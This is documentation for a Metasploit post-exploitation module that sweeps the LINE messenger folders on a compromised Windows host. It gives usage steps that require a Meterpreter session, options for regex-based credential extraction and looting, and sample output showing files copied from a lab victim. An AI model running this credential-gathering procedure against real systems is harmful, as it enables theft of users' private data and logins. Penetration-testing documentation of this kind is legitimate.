 ## Module Description

This post-exploitation module gathers artifacts found on LINE related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/LINE
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054823_default_192.168.56.106_line24348280.png_031858.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line16188.png_166694.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line47976.png_270633.png

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line24348280.png_472404.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line16188.png_355604.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line47976.png_481503.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3059\1\765251.png
[*] Line 765251.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line765251.png_881563.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3590\1\2872642.png
[*] Line 2872642.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line2872642.png_628173.png


[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```